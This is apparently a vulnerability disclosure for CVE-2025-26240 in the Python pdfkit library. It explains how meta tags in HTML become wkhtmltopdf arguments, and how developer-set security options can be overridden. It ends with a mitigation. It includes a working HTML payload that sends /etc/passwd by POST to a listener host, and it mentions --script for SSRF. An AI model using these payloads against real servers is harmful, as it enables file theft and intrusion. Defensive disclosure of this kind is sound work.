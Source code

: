 ﻿# **The *pdfkit* vulnerability (CVE-2025-26240)**
## **Summary**
The vulnerability in the pdfkit library is caused by parsing user-provided HTML in the `from_string` method, with no available options to mitigate the risk. The `from_string` method uses meta tags whose names start with “pdfkit-” and treats their values as command-line parameters for the `wkhtmltopdf` tool. This parsing is performed in the `_find_options_in_meta` method, located in the `pdfkit/pdfkit.py` file. While this functionality may be useful for certain use cases (such as setting the paper size), some `wkhtmltopdf` arguments pose security risks. 
## **Simple POC**
If we pass following html data into the `from_string` method we will be able to read the contents of the **/etc/passwd** file.

```html
<meta name='pdfkit---quiet' content=''>
<meta name='pdfkit---enable-local-file-access' content=''>
<meta name='pdfkit---post-file' content=''>
<meta name='pdfkit-file--a' content='/etc/passwd'>
<meta name='pdfkit-http://127.0.0.1:8080/?LFI-TEST=--' content='--cache-dir'>
<h1>LFI POC</h1>
```

There are a few constraints on the arguments that will be sent to wkhtmltopdf. The first is that the key must contain two dashes, which is why the last meta tag includes `--` in its name. The implementation of this check can be found in the `_normalize_options` method located in the `pdfkit/pdfkit.py` file.

```python
for key, value in list(options.items()):
    if '--' not in key:
        normalized_key = '--%s' % self._normalize_arg(key)
    else:
        normalized_key = self._normalize_arg(key) 
```

Due to insufficient validation, we are able to pass arguments that accept multiple values, not just key-value pairs. 

When we pass the example HTML file to the `from_string` method, we can see that the command generated and executed with the subprocess.Popen method is as follows:

`['/usr/local/bin/wkhtmltopdf', '--quiet', '--enable-local-file-access', '--post-file', 'file--a', '/etc/passwd', 'http://127.0.0.1:8080/?lfi-test=--', '--cache-dir', '-', '-']`

Resulting in following command:

`/usr/local/bin/wkhtmltopdf –quiet --enable-local-file-access --post-file file--a /etc/passwd http://127.0.0.1:8888/?lfi-test=-- --cache-dir - -`

This command sends the contents of the `/etc/passwd` file as an attachment in a POST request to `http://127.0.0.1:8888/?lfi-test=--` with the parameter `file--a`. The `--cache-dir` parameter is included solely to remove the extra dash added by the pdfkit library, ensuring that the wkhtmltopdf tool executes successfully.

When exploiting this vulnerability, we can observe that the contents of the `/etc/passwd` file are received on our Python listener.

![](/docs/assets/CVE-2025-26240-image-1.png)

In the same way, we can execute any JavaScript scripts by utilizing the `--script` command-line parameter, which runs the specified JavaScript code after generating the PDF, leading to SSRF and other potential vulnerabilities.

The Proof Of Concept source codes are available on my git repository <a href="https://github.com/Habuon/CVE-2025-26240">https://github.com/Habuon/CVE-2025-26240</a>

## **Bypass of pdfkit security measures**
The pdfkit library allows developers to provide an options dictionary for direct options that will be passed to `wkhtmltopdf`. The main issue is that these options can be easily bypassed due to Python’s way of handling dictionaries.

The options initialization is defined in `pdfkit/pdfkit.py` as follows:

```python
self.options = OrderedDict()
if self.source.isString():
    self.options.update(self._find_options_in_meta(url_or_file))
    self.environ = self.configuration.environ
    if options is not None:
        self.options.update(options)
```

The main issue is that Python preserves the order of keys when using the update method. For example, if we have the dictionary `{"a": 10, "b": 20}` and call update on it with `{"a": 15}`, the resulting dictionary will be `{"a": 15, "b": 20}`.

An attacker can always manipulate the order of command-line arguments sent to wkhtmltopdf. If a developer attempts to enforce security options such as `{"disable-javascript": "", "disable-local-file-access": ""}`, the attacker can set these options first and then override them by adding their counterparts, such as `enable-javascript` or `enable-local-file-access`. 

## **Impact**
1. Local File Inclusion (LFI) and Data Exposure

    - Attackers can leverage the `--post-file` argument to access sensitive files on the server, such as `/etc/passwd`. This allows unauthorized disclosure of system information, potentially aiding in privilege escalation or further exploitation of the host machine.
2. Server-Side Request Forgery (SSRF)
    - By abusing command-line parameters like `--script`, an attacker can make unauthorized HTTP requests to internal or external services. This can lead to:
        - Accessing internal resources that should not be publicly exposed.
        - Bypassing security mechanisms such as firewalls or API rate limits.
        - Interacting with cloud metadata services to extract sensitive credentials.

## **Easiest solution for developers**
The easiest solution for developers using this vulnerable method is probably to use other methods than `from_string`. For example developer can save the provided HTML to temporary file and then use `from_file` method, which doesn’t parse the meta tags. 

